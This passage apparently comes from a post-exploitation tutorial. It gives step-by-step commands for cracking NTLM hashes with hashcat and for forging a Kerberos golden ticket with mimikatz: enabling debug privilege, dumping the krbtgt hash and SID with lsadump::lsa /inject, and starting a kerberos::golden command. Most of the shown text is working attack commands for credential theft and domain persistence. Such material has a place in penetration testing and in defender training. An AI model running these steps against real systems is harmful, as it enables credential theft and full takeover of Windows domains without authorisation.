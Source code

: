 ![Dump mimikatz](/assets/img/posts/post-exploitation/mimikatz_NTLM.png)


##### Crack those hashes w/ hashcat﻿

1.) ```hashcat -m 1000 <hash> rockyou.txt```   



#### Golden Ticket (Mimikatz)
**Dump the krbtgt Hash**

﻿1.) ```cd downloads && mimikatz.exe```    

2.) ```privilege::debug``` ensure this outputs [privilege "20" ok]

﻿3.) ```lsadump::lsa /inject /name:krbtgt``` This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket

![Krgtgt](/assets/img/posts/post-exploitation/create_krbtgt.png)

Take note of what is outlined in red you'll need it to create the golden ticket

**Create a Golden Ticket**

﻿1.) ```kerberos::golden /user: /domain: /sid: /krbtgt: /id:```
